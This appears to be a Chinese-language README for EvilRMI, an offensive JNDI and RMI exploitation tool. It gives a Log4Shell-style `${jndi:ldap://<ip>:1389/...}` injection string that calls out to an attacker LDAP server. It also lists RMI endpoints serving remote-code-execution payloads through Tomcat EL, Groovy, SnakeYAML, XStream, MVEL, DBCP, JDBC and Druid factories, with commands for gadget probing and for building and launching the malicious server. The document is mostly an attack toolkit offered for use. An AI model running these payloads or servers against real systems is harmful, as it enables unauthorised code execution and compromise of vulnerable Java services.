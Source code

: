 ### 探测可用的gadget
[UrlDns](https://github.com/kezibei/Urldns) 启动LDAP服务:
```
java -jar Urldns.jar ldap all <dnslog>
```
JNDI加载LDAP：`${jndi:ldap://<ip>:1389/Hello}`，利用LDAP反序列化的特性使用URLDNS探测存在的gadget

如果DNS未出网，可以使用延时探测: [构造java探测class反序列化gadget
](https://mp.weixin.qq.com/s/KncxkSIZ7HVXZ0iNAX8xPA>)


### RmiServer

- `rmi://127.0.0.1:1099/tomcat_el`
    - javax_el_ELProcessor
- `rmi://127.0.0.1:1099/tomcat_groovy`
- `rmi://127.0.0.1:1099/tomcat_snakeyaml`
    - org_yaml_snakeyaml_Yaml
- `rmi://127.0.0.1:1099/tomcat_xstream`
    - Xstream <= 1.4.17
- `rmi://127.0.0.1:1099/tomcat_MVEL`
    - org_mvel2_sh_ShellSession
- `rmi://127.0.0.1:1099/tomcat_xxe`
    - org_apache_catalina_UserDatabase
- `rmi://127.0.0.1:1099/tomcat_dbcp2_RCE`
    - org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory
- `rmi://127.0.0.1:1099/tomcat_dbcp1_RCE`
    - org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory
- `rmi://127.0.0.1:1099/commons_dbcp2_RCE`
    - org.apache.commons.dbcp2.BasicDataSourceFactory
- `rmi://127.0.0.1:1099/commons_dbcp1_RCE`
    - org.apache.commons.dbcp.BasicDataSourceFactory
- `rmi://127.0.0.1:1099/tomcat_JDBC_RCE`
    - org.apache.tomcat.jdbc.pool.DataSourceFactory
- `rmi://127.0.0.1:1099/druid`
    - com.alibaba.druid.pool.DruidDataSourceFactory

#### 编译运行
1. File -> Project Structure -> Artifats -> + -> Add Jar -> Main Class -> com.rmi.RmiServer
2. Build -> Build Artifats
3. java -cp EvilRMI.jar com.rmi.RmiServer


* [老链新用，利用URLDNS链探测gadget](https://mp.weixin.qq.com/s/p_mBiEhXuHa11usHPzHlEA)
* [Urldns链探测类工具发放](https://mp.weixin.qq.com/s/DN9n_xAd0QRB2G1kjbeGMw)
* [构造java探测class反序列化gadget](https://mp.weixin.qq.com/s/KncxkSIZ7HVXZ0iNAX8xPA)
* [探索高版本 JDK 下 JNDI 漏洞的利用方法](https://tttang.com/archive/1405/)
* [ysoserial-for-woodpecker](https://github.com/woodpecker-framework/ysoserial-for-woodpecker)